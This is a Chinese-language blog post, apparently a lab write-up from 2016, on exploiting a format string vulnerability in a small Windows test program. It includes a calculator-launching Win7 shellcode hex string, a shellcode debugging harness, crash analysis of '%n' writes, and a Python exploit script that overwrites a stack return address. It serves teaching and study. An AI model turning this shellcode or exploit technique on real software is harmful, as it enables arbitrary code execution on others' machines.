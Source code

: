 ```yaml
---
layout:     post
title:      "windows格式化字符串漏洞探究"
subtitle:   "姑且定义为一个集合Fsb漏洞构造、分析、利用的小实验"
date:       2016-11-17 11:40:25
author:     "Carter"
header-img: "img/post-bg-re-vs-ng2.jpg"
header-mask: 0.3
catalog:    true
tags:
    - OS
    - PWA
---
```



###**知识点：**
- windows下的格式化字符串fsb利用   
- 利用mona查询各个模块开启安全机制   
- win7弹计算器shellcode
- 如何调试shellcode

###一. 程序代码：
```
#include "stdafx.h"
#include<stdio.h>
#include<stdlib.h>
#include <string.h>
int main (int argc, char *argv[])
{
	char buff[1024];
	FILE*f;
	
	f=fopen("flag.txt","r");
	fread(buff,1024,3,f);
   	printf(buff); //触发漏洞
  return 0;
}
```
 程序的流程是从flag.txt中读取字符串，再打印出来。很明显，程序中存在一个windows下的格式化字符串漏洞。

###二. 基本知识：
#####**1. 格式化字符串相关知识**
%x：依次打印出栈上数据
[图片]
%100x：指定数据打印时显示长度为100字节
[图片]
%n：打印出栈上数据作为地址时，该地址的内容（当该地址不可达时，就会崩溃）

#####**2. 设置immunity debugger为默认调试器**
直接在注册表里修改，该方法比较简单粗暴
[图片]
[图片]
(PS：同样方法，win7下设置Ollydbg为默认调试器一直失败，但是设置immunityDbg为默认调试器则可以，不知道为什么)

#####**3. windows7_32bit 弹计算器shellcode**
```
shellcode = '\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5'
```

#####**4.  如何调试shellcode**
```
#include "stdafx.h"
#include<stdio.h>
#include<windows.h>

int main(int argc, char* argv[])
{
    //导入ShellCode中要使用的.dll
    LoadLibrary("kernel32.dll"); 
    char shellcode[256] = "\x90\x90\x90...\x90";        

    __asm{ 
       lea eax,shellcode 
       push eax 
       ret;           //ret到ShellCode处
    } 
	return 0;
}
```
结合IDA，定位到具体代码，就可以跟进到shellcode处，查看shellcode的执行情况了
#####**5. 查看程序开启安全机制**
在immunity Debugger中，使用 

> !mona modules

可以查看程序加载的各个模块对应开启的安全机制
[图片]
上图可见，对于程序本身什么安全机制都没开启。因为程序没有开启数据执行保护DEP，所以可以把shellcode放在栈上，攻击返回地址后跳转到shellcode处执行。


###三. 漏洞调试
首先使用'%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
[图片]
使用'%x-%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
[图片]
从上面两次尝试中可以看出，程序崩溃是因为'%n'这个参数，在
```
mov ptr[EAX], ECX
```
这条指令时因为EAX内容作为地址不可达，所以触发程序崩溃。
崩溃时EAX是当时'%n'应该打印的那个栈地址内容，ECX是崩溃时已经打印出来的字符长度：
```
%x-%x-%x-%n --> ECX：0xD=13
%x-%x-%x-%x-%n --> ECX：0x16=22
```
对比下图，可以验证说法正确性
[图片]

###四. 漏洞利用
我们可以通过控制打印栈上内容的数量（即增加%x的数量），控制EAX的值。可以通过控制打印字符的长度（用%100x，%200x等来控制打印长度），控制ECX的值。最后利用mov ptr[EAX],ECX来任意地址写。

内存任意写写哪个地方--------最快捷的方法，就是覆盖最近函数的返回地址为shellcode的地址

alt+k查看栈回溯，可以看到最近的一个返回地址存储在栈地址0x12faf0
[图片]
崩溃时，查看栈，确定存储输入的起始地址是0x12fb48
[图片]
所以我们的目的就是令：EAX=0x12faf0  ECX=0x12fb48

###五. 编写漏洞利用脚本
输入构造为：
shellcode相应多的%x一些%nx来调整输出长度需要被覆盖的地址
exp1.py
```
shellcode = '........'
ret_addr = '\xf0\xfa\x12\x00'
input1 = shellcode + '-%x'*218 + '%414000x' + '%414000x' + '%413908x' + '%n' + ret_addr

with open('flag.txt','wb') as f:
	f.write(input1)    
```

为了效果，我在shellcode开头字节设置了0xCC -- int3，运行exp.py生成flag.txt，运行fsb.exe从flag.txt读取字符后使用printf函数打印，成功触发Fsb漏洞
[图片]
弹出可爱的计算器
[图片]

##六. 问题解决
**问题描述：**

 之前实验中使用strcpy复制字符串到内存，但是发现有些字节复制到内存后变为了'\x3f' -- '?'，比如：
 ```
\x8b\x36 -- \x3f
```
**解决方法：**

strcpy和strncpy都是针对可见字符而言的，不能复制不可见字符，且遇到'\x00'就停止复制。

与 strcpy() 不同的是，memcpy(*memTo,*memFrom,num) 会完整的复制 num 个字节，对复制内容没有限制，也不会因为遇到“\0”而结束。

PS: 在此最终采用了fread函数从文件中读取的方式读取payload到内存


参考链接：
http://bbs.pediy.com/showthread.php?t=213153